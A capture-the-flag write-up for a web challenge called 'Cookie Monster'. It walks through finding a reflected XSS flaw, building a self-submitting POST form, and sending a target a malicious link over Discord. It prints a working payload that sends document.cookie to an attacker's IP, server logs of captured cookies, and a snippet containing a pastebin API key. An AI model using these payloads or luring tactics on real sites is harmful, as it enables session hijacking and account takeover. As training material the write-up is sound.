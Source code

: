 # Cookie Monster

## Web: 200 points

## Challenge

A skid hacker who's out to get me is working on a forum. Right now the only accessible page is
http://challenges.laptophackingcoffee.org:1337/dev.php.

We've found his admin panel at
http://challenges.laptophackingcoffee.org:1337/dev.php?page=admin
and we know he's using cookies for authentication.

Steal his cookies and access the admin panel to delete the site.

He's on the LHC discord server as **@Elite Hacker#2489**. He's expecting his buddy Jerry to send him a link with some documentation. Maybe you can use that information somehow?

[ [Start](http://challenges.laptophackingcoffee.org:1337/dev.php) ]

Note: The server resets to default every 30 minutes. All progress will be lost.

## Solution

Open the [dev][1] page. There is a message text field and a submit button. Send some input like `hello world`:

![screenshot1](screenshot1.png)

Try `<h1>hello world</h1>`:

![screenshot2](screenshot2.png)

Is JavaScript allowed? Try `<script>alert("XSS")</script>`. Yes, JavaScript is allowed:

![screenshot3](screenshot3.png)

The webpage does not properly sanitize user input. This makes the page vulnerable to [cross-site scripting (XSS)][2].

Is this a [stored XSS][3] vulnerability? Check if the value entered persists across sessions by opening the [dev][1] page in another window. Notice that any input entered in one session does not carry over to another. Therefore, this is not a stored XSS vulnerability. Instead it is a [reflected XSS][4] vulnerability, where the user's input is immediately returned by the web application.

Inspect how the webpage accepts user input. Inspect the page using Chrome. Click the **Network** tab, type in some input like `hello world`, and click the **Submit** button. Click the **dev.php** item in the requests list and examine the details:

```
Request URL: http://challenges.laptophackingcoffee.org:1337/dev.php
Request Method: POST
Form Data: message=hello+world
```

The webpage used the POST request method and sent a `message` variable with the user's input of `hello world`. This is also confirmed in the form's html:

```html
<form action="/dev.php" method="post">
  Message: <input type="text" name="message"><br>
  <input type="submit" value="Submit">
</form>
```

To take advantage of this vulnerability, a web server is needed. Open up Google Cloud Platform and spin up a free virtual machine. 

```
******************************************
TODO: Add google cloud set up instructions
******************************************
https://cloud.google.com/sdk/docs/downloads-snap
Install google-cloud sdk:
$ snap install google-cloud-sdk --classic
$ gcloud init
```

Install Apache web server:

```
******************************************
TODO: Add apache install instructions
******************************************
```

Now Apache is installed, paste the VM's public IP into the browser and load the default web page. 

Load up the python simple server on port 8888:
```
$ python3 -m http.server 8888
```

Now try to send it a cookie by visiting a url like this:
```
http://0.0.0.0:8888/?c=THIS_IS_A_COOKIE
```

Boom cookie sent!
```
64.44.81.92 - - [25/Jun/2020 04:35:27] "GET /?c=THIS_IS_A_COOKIE HTTP/1.1" 200 -
```

```html
<script>
image = new Image(); 
image.src='http://34.70.24.215:8888/?c='+document.cookie;
</script>
```

```
64.44.81.92 - - [25/Jun/2020 04:37:26] "GET /?c=cookie=THIS_IS_COOKIE_MONSTER HTTP/1.1" 200 -
```

Since the vulnerable webpage accepts user input via a POST request, the XSS attack will need to initiate a POST request with the proper payload in order to steal Elite Hacker's cookie. Following the suggestion in [PortSwigger's blog][5], create a webpage called `cookie.html` that will deliver this payload:

```html
<html>
   <body>
      <h1>Hello Cookies!!</h1>
      <form 
        name=MyForm 
        action=http://challenges.laptophackingcoffee.org:1337/dev.php 
        method=post>
         <input type=hidden name=message value="<script>
            image = new Image(); 
            image.src='http://34.70.24.215:8888/?c='+document.cookie;
            </script>">
      </form>
      <script>
         document.MyForm.submit();
      </script>
   </body>
</html>
```

Verify that the page works by visiting the url: 
```
http://0.0.0.0/cookie.html
```

It works. Now wake up Elite Hacker, mention Jerry, and send the malicious link:

![screenshot4](screenshot4.png)

Wait for Elite Hacker to click. Monitor the python server for activity:

```
z@test-lab:/var/www/html$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
64.44.81.92 - - [25/Jun/2020 02:41:06] "GET /?c=_ga=GA1.2.1731152959.1592886096 HTTP/1.1" 200 -
35.237.149.50 - - [25/Jun/2020 02:41:54] "GET /?c=lhcxssadmin=true HTTP/1.1" 200 -
```

Just like that. Cookie captured: `lhcxssadmin=true`. Now visit the [admin][6] page. Enter this cookie manually via Chrome dev tools. Refresh:

```
H4X1N6 F0RU|V| D3\/

Your flag is LHC{P05t3d_4_an_xSs}
```

## Failed Attempts

XMLHttpRequest:
```
Access to XMLHttpRequest at 'http://challenges.laptophackingcoffee.org:1337/dev.php' from origin 'http://34.70.24.215' has been blocked by CORS policy: Response to preflight request doesn't pass access control check: No 'Access-Control-Allow-Origin' header is present on the requested resource.
```

Pastebin:
```html
<script>
// 1. api_dev_key - which is your unique API Developers Key.
// 2. api_option - set as paste, this will indicate you want to create a new paste.
// 3. api_paste_code - this is the text that will be written inside your paste.
let data = {api_dev_key: "ef18a18477ac0ba892c5ecef221bc779", api_option: "paste", api_paste_code: "hello world"};
fetch("https://pastebin.com/api/api_post.php", {
  method: "POST", 
  body: JSON.stringify(data)
}).then(res => {
  console.log("Request complete! response:", res);
});
</script>
```

## Resources

* https://www.w3schools.com/jsref/met_node_appendchild.asp
* https://stackoverflow.com/questions/6396101/pure-javascript-send-post-data-without-a-form
* https://security.stackexchange.com/questions/49185/xss-cookie-stealing-without-redirecting-to-another-page
* https://www.youtube.com/watch?v=HbzI3ubOos0
* https://owasp.org/www-community/Types_of_Cross-Site_Scripting
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

https://www.youtube.com/watch?v=LrjpcR-IJwY
https://ubuntu.com/tutorials/install-and-configure-apache#2-installing-apache
https://www.youtube.com/watch?v=fMqFxV_0-DQ
https://cloud.google.com/free/
https://cloud.google.com/sdk/docs/downloads-snap

[1]:http://challenges.laptophackingcoffee.org:1337/dev.php
[2]:https://en.wikipedia.org/wiki/Cross-site_scripting
[3]:https://owasp.org/www-community/attacks/xss/#stored-xss-attacks
[4]:https://owasp.org/www-community/attacks/xss/#reflected-xss-attacks
[5]:https://portswigger.net/blog/exploiting-xss-in-post-requests
[6]:http://challenges.laptophackingcoffee.org:1337/dev.php?page=admin
[7]:https://portswigger.net/web-security/cross-site-scripting/reflected